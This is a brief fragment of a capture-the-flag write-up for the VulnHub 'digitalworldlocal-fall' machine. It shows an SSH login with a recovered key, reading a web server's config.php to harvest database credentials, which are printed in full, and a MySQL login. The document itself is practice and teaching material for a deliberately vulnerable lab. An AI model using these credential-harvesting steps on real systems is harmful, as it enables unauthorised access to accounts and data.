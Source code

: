 ![digitalworldlocal-fall](https://raw.githubusercontent.com/GooseGusevich/vulnhub/refs/heads/main/digitalworldlocal-fall/screenshots/20250518065624.png)

# SSH

> [!NOTE]
> 22/tcp    open   ssh         syn-ack ttl 64 OpenSSH 7.8 (protocol 2.0)

```bash
ssh -i key qiu@192.168.3.189
```

![[20250518072622.png]]

```bash
cat /var/www/html/config.php
```

```config
$config['dbms'] = 'mysqli';
$config['db_hostname'] = '127.0.0.1';
$config['db_username'] = 'cms_user';
$config['db_password'] = 'P@ssw0rdINSANITY';
$config['db_name'] = 'cms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Asia/Singapore';
$config['db_port'] = 3306;
```

## MYSQL
```bash
mysql -u cms_user -p
```
